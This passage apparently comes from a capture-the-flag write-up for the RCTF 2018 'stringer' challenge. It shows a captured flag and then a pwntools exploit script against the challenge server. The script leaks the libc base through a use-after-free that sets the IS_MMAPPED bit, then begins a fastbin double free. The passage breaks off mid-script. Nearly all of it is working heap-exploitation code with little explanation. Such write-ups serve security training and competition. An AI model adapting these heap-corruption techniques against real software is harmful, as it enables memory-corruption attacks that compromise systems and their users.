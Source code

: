 ```
$ cat flag
RCTF{Is_th1s_c1-1unk_m4pped?_df3ac9}
```

### Exploit code

```python
#!/usr/bin/env python2

from pwn import *

p = remote('stringer.2018.teamrois.cn', 7272)

chunk_idx = 0

def menu(n):
    p.recvuntil('choice: ')
    p.sendline(str(n))

def alloc(size, content='', final=False):
    global chunk_idx
    menu(1)
    p.recvuntil('length: ')
    p.sendline(str(size))
    if final:
        return
    p.recvuntil('content: ')
    p.send(content + ('\n' if len(content) < size else ''))
    p.recvuntil('your string: ')
    s = p.recvuntil('\n1.')[:-3]
    chunk_idx += 1
    return (chunk_idx-1, s)

def increment_byte(idx, offset):
    menu(3)
    p.recvuntil('index: ')
    p.sendline(str(idx))
    p.recvuntil('index: ')
    p.sendline(str(offset))

def free(idx):
    menu(4)
    p.recvuntil('index: ')
    p.sendline(str(idx))

prog = log.progress('Leaking libc')
dangling, _ = alloc(0xa8)
alloc(0x18) # stop consolidation with top chunk
free(dangling)
alloc(0x18) # spacer
victim, _ = alloc(0x88)
free(victim)
# set IS_MMAPPED on freed victim
for _ in range(2):
    increment_byte(dangling, 0x18)
# exact fit into victim unsorted
_, leak = alloc(0x88)
libc_base = u64(leak.ljust(8, '\x00')) - 0x3c4b0a
prog.success('@ 0x{:012x}'.format(libc_base))

prog = log.progress('Double-freeing fastchunk')
dup, _ = alloc(0x68)
mid, _ = alloc(0x68)
```